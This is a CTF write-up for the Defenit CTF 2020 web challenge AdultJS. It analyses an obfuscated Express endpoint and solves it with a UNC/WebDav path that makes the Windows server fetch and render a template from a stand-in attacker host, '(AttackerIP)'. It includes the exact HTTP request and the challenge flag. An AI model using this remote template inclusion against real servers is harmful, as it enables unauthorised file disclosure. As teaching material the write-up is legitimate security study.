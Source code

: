 # AdultJS
*Defenit CTF 2020 - Web 810*<br>
*Writeup by Payload as ToEatSushi*


## Problem

Are you over 18?
This challenge is for adults :D

Hints <br>
 - Adult-JS is Served by Windows<br>
 - UNC Path

## Analyze Obfuscation

There are tooooooooo many endpoints in source code, we have to summary them first. With our teammate [@rbtree](https://twitter.com/RBTree_Pg_), we removed a garbage endpoints first.

We found that a function is different with other functions in `/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020`

```javascript

	app.post("/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020", (req, res) => {
	    try {
	        ae97ef205 = req.body.hcda7a4f9;
	        c43c4f0d2 = req.get("d28c3a2a7");
	        dd0372ef0 = req.range("g64aa5062");
	        f71f5ce80 = req.cookies.i77baba57;
	        ic9e2c145 = req.secure["eb4688e6f"];
	
	        fc4ebc0cc = {
	            b13a9706f: Function,
	            f635b63db: 15
	        };
	        ae9a8c19f = {
	            h4f3b2aa1: shared,
	            cf479eeba: this
	        };
	        h4a0a676e = Buffer.alloc(26);
	        h9b2a10f7 = Buffer.allocUnsafe(73);
	        f8c4d94cc = [
	            [
	                [
	                    [{
	                        cbee7d77b: this,
	                        e21888a73: shared
	                    }]
	                ]
	            ]
	        ];
	        dffbae364 = {
	            f13828fc5: Function,
	            cbcc2fbc6: 22
	        };
	        ib4cb72c9 = {
	            hdd2f9aa3: Function,
	            he404c257: 59
	        };
	        hf494292b = 'f7de2a815';
	        dd0372ef0 = dd0372ef0.gbae8c4d4
	        ic9e2c145 = ic9e2c145.d006e28f3
	
	        ae9a8c19f = assert(f71f5ce80);
	
	        res.render(ae97ef205);
	    } catch {
	        res.end('Error');
	    }
	});
```

We can give a template file in var `ae97ef205` which is from `req.body.hcda7a4f9`. Also we have to avoid `assert` directly before `res.render`, we have to set cookie `i77baba57` as non-falsy value.

## UNC, SMB and WebDav

This problem is running on Windows, which support UNC path to make file-related functions to be able to retrieve from remote. UNC uses SMB protocol as default, however when it fails, it tries WebDav over HTTP instead. With this, we can upload a hbs template file include `{{> FLAG }}` to our server, and let server to render it.

## Explotation

1. Configure WebDav server. I used apache2.
2. Upload a template file (flag.html)
3. Render it using the endpoint.

Actually, the flag of BabyJS is a great hint. The only problem is that I realized it after solving.

## Payload


`flag.html`
```
  {{> FLAG }}
```

```

POST /61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020 HTTP/1.1
Host: adult-js3.ctf.defenit.kr
Cookie: i77baba57=123123
Content-Type: application/json

{"hcda7a4f9": "\\\\(AttackerIP)@80\\webdav\\flag"}


```




**`Defenit{AuduLt_JS-@_lo7e5_@-b4By-JS__##}`**
